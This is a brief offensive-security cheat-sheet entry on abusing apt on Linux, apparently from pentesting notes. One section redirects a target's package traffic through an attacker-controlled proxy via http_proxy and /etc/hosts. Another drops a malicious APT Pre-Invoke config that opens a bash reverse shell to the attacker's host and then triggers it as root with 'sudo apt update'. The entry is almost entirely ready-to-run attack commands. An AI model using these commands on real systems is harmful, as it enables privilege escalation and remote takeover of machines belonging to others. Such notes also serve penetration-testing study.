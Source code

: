 ```yaml
---
title: "Apt"
date: 2024-7-4
tags: ["apt", "update", "privesc", "pre-invoke", "sudo"]
---
```


### MITM (Man-in-the-Middle)

#### 1. Add proxy path in target machine

```console
export http_proxy=http://<LOCAL_IP>:<LOCAL_PROXY_PORT>
```

#### 2. Start proxy in local machine

```console
# Tool
pip3 install --upgrade proxy.py
```

```console
# Start a proxy server
proxy --hostname 0.0.0.0 --port <LOCAL_PROXY_PORT>
```

#### 3. Redirect traffic to our server

```console
# Edit /etc/hosts in target machine
<LOCAL_IP> apt.update.example.com
```

---

### SUDO

#### 1. Create a malicious config

```console
echo 'APT::Update::Pre-Invoke {"bash -c '\''bash -i >& /dev/tcp/<LOCAL_IP>/<LOCAL_PORT> 0>&1'\''"}' > /etc/apt/apt.conf.d/evil
```

#### 2. Exploit

```console
sudo apt update -y
```

<br>